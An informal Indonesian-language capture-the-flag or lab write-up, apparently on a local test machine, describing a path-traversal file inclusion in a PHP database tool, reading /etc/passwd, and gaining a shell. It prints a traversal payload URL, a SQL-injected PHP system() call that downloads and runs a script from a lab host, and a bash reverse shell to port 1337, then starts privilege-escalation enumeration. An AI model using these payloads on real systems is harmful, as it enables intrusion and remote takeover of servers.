 menurut [exploit](https://www.exploit-db.com/exploits/44928)nya pertama tama gw harus masukin code yang dibawah ini ke SQL server-nya.
```php
select '<?php phpInfo();exit;?>'
```

![img8](https://i.ibb.co/7g8swxb/phpserverpng.png)

terus katanya masukin juga payload buat baca session file gitu.
```php
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_(cookie session, kalo g tau letak cookie pake extension di browser namanya CookieEditor)
```
tapi kalo di gw kok malah error" gitu jadi karena ilmu gw dikit, gw putuskan untuk coba ngread file *passwd* dan pas gw test ternyata bisa.
```php
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![passwd](https://i.ibb.co/XYyjLHz/passwd.png)

dan hasilnya bisa, oke jadi langsung gw buat *payload* alias *reverse tcp shell* lewat sql server tadi.

## Remote Code Execution

jadi gw masukin *reverse shell* seperti yg gw bilang tadi, masukin lewat sql server.
```php
select '<?php system("wget http://192.168.172.128:10/skofos.sh -o skofos.sh; chmod +x skofos.sh; bash skofos.sh;");exit?>
```
ini code yang gw buat untuk *revere shell* nya
```sh
bash -i > /dev/tcp/192.168.172.128/1337 0>&1
```
yaudah habis itu gw nyalain *netcat* dgn port 1337 seperti yg gw buat di *reverse shell* itu.

## User.txt

![netcat](https://i.ibb.co/bsrf32K/netcat.png)

![lmao](https://i.ibb.co/Lk18YT0/user.png)

# Privilege Escalation

pas gw baca itu ada *new command* aka perintah baru atau apa itu, untuk membackup suatu file dan meng-compress tanpa perlu ijin root. terus gw googling dan gw lupa sumbernya dari mana nanti kalo ketemu gw taro sini, jadi gw liat pake command `getcap -r / 2>/dev/null`. 

![getcap](https://i.ibb.co/557vN7r/escalation.png)
